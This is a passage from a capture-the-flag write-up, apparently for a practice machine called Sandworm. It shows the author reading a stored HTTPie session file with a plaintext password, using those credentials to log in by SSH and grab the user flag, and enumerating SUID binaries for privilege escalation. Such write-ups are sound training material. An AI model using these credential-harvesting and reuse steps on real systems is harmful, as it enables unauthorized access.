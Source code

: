 ```bash
drwxrwxr-x 3 nobody atlas 4096 Jan 15  2023 ..
drwxrwx--- 2 nobody atlas 4096 May  4 17:30 localhost_5000
cat localhost_5000
cat: localhost_5000: Is a directory
cd localhost_5000
ls -la
total 12
drwxrwx--- 2 nobody atlas 4096 May  4 17:30 .
drwxrwxr-x 3 nobody atlas 4096 Jan 15  2023 ..
-rw-r--r-- 1 nobody atlas  611 May  4 17:26 admin.json
cat admin.json
{
    "__meta__": {
        "about": "HTTPie session file",
        "help": "https://httpie.io/docs#sessions",
        "httpie": "2.6.0"
    },
    "auth": {
        "password": "quietLiketheWind22",
        "type": null,
        "username": "silentobserver"
    },
    "cookies": {
        "session": {
            "expires": null,
            "path": "/",
            "secure": false,
            "value": "eyJfZmxhc2hlcyI6W3siIHQiOlsibWVzc2FnZSIsIkludmFsaWQgY3JlZGVudGlhbHMuIl19XX0.Y-I86w.JbELpZIwyATpR58qg1MGJsd6FkA"
        }
    },
    "headers": {
        "Accept": "application/json, */*;q=0.5"
    }
}
```

Then we use those creds with ssh and we get user access.

```bash
$ ssh silentobserver@10.10.11.218
quietLiketheWind22

silentobserver@sandworm:/opt/crates/logger$ cat ~/user.txt
36df188c386fc9ec18dfb3a85509c954
```

## Privilege escalation

The root user compiles a project with cargo rust:

```bash
silentobserver@sandworm:~$ find / -perm -4000 2>/dev/null
/opt/tipnet/target/debug/tipnet
/opt/tipnet/target/debug/deps/tipnet-a859bd054535b3c1
/opt/tipnet/target/debug/deps/tipnet-dabc93f7704f7b48
/usr/local/bin/firejail
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/libexec/polkit-agent-helper-1
/usr/bin/mount
/usr/bin/sudo
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/passwd
```